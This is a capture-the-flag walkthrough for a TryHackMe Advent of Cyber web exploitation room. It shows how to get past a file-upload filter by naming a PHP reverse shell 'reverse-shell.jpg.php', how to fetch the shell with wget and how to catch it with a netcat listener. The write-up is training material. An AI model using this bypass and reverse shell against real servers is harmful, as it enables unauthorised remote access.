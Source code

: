 # [Day2] Web Exploitation The Elf Strikes Back

[Link to the Challenge](https://tryhackme.com/room/adventofcyber2#task-6)

Navigate your browser to the IP of the box

![not_logged_in](img/not_logged_in.png)

Find the id is attached to the dossier and add it as a GET parameter to the URL

```
id=ODIzODI5MTNiYmYw
```
```
http://$IP/?id=ODIzODI5MTNiYmYw
```

![upload_01](img/upload_01.png)

Get the reverse-shell:
```
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

Find your ip address
```
ip a show tun0
```

Edit the reverse-shell.php and change the `ip` and the `port`
Change the $ip to your ip address and the port to a port you like e.g. 9999 or 4444
Save the file as reverse-shell.jpg.php to trick the upload filter

Upload the file (make sure to change the selection from "All supported Files" to "All Files).

After the upload was successful, goto the uploads page: `http:IP/uploads/?id=ODIzODI5MTNiYmYw`

![uploaded](img/uploaded.png)

In your terminal start a netcat session and start listening:
```
sudo nc -lvnp 9999
```

Go back to the browser and click on the uploaded file.

![shell](img/shell.png)


